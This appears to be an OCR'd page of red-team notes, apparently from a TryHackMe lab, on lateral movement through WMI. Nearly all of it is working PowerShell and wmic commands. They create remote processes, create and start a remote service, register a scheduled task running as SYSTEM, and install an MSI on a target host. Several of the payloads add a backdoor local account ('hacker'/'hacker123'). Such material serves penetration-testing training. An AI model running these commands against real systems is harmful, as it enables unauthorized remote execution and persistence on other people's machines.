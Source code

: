 #### Create Remote Process WMI Powershell
```powershell
$Command = "powershell.exe -Command Set-Content -Path C:\test.txt -Value bananas";
Invoke-CimMethod -CimSession $Session -ClassName Win32_Process -MethodName Create -Arguments @{CommandLine = $Command}
```
No output of command but will silently create process

Legacy
```powershell
wmic.exe /user:Administrator /password:Password123 /node:TARGET process call create "cmd.exe /c calc.exe"
```
#### Create Remote Service WMI Powershell

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Service -MethodName Create -Arguments @{
Name = "Service2";
DisplayName = "Service2";
PathName = "net user hacker hacker123 /add"; #payload
ServiceType = [byte]::Parse("16"); # Win32OwnProcess; Start service in new process
StartMode = "Manual"
}
```

Start Service

```powershell
$Service = Get-CimInstance -CimSession $Session -ClassName Win32_Service -filter "Name LIKE 'Service2'"

Invoke-CimMethod -InputObject $Service -MethodName StartService

Additional Methods: StopService, Delete
```
#### Create Remote SchTask WMI Powershell
```powershell
# Payload must be split command and args
$Command = "cmd.exe"
$Args = "/c net user hacker hacker123 /add"
$Action = New-ScheduledTaskAction -CimSession $Session -Execute $Command -Argument $Args
Register-ScheduledTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "ThmTask2"
Start-ScheduledTask -CimSession $Session -TaskName "ThmTask2"

Delete SchTask
Unregister-ScheduledTask -CimSession $Session -TaskName "ThmTask2"
```
#### Install MSI Remotely WMI Powershell

Required Group Memberships: Administrators

```powershell
Invoke-CimMethod -CimSession $Session -ClassName Win32_Product -MethodName Install -Arguments @{PackageLocation = "C:\Windows\myinstaller.msi"; Options = ""; AllUsers = $false}

Legacy Systems
wmic /node:TARGET /user:DOMAIN\USER product call install PackageLocation=c:\Windows\myinstaller.msi
```
